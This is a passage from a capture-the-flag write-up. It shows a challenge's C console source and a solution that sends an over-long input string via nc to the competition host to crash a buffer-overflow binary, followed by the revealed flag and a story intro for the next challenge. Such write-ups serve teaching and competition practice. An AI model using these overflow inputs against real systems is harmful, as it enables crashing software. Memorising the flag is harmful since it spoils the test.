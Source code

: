 ```c
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  char inputs[256];
  printf("Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.\n Bonus flag for controlling the crash.\n");
  while(1) {
    printf("\nConsole commands: \nrun\nquit\n>>");
    if (fgets(inputs, 256, stdin) == NULL) {
      exit(0);
    }
    printf("Inputs: %s", inputs);
    if ( strncmp(inputs, "run\n\0", 256) == 0 ) {
      int result = system("/usr/bin/qemu-mipsel-static ./bof");
      continue;
    } else if ( strncmp(inputs, "quit\n\0", 256) == 0 ) {
      exit(0);
    } else {
      puts("Unable to determine action from your input");
      exit(0);
    }
  }
  return 0;
}
```
Before I start to overthink again I will try the easy thing.
First I connect to the host and create a string which is larger then 256
```
python -c "print 'x' * 300"
nc buffer-overflow.ctfcompetition.com 1337
```
Afterwards i type run and copy the 300 x into the input and the flag appears
```
Flag: CTF{Why_does_cauliflower_threaten_us}
````
## Solution Bonus Flag 

## Work Computer sandbox 
With the confidence of conviction and decision making skills that made you a contender for Xenon's Universal takeover council, now disbanded, you forge ahead to the work computer.   This machine announces itself to you, surprisingly with a detailed description of all its hardware and peripherals. Your first thought is "Why does the display stand need to announce its price? And exactly how much does 999 dollars convert to in Xenonivian Bucklets?" You always were one for the trivialities of things.

Also presented is an image of a fascinating round and bumpy creature, labeled "Cauliflower for cWo" - are "Cauliflowers" earthlings?  Your 40 hearts skip a beat - these are not the strange unrelatable bipeds you imagined earthings to be.. this looks like your neighbors back home. Such curdley lobes. Will it be at the party?
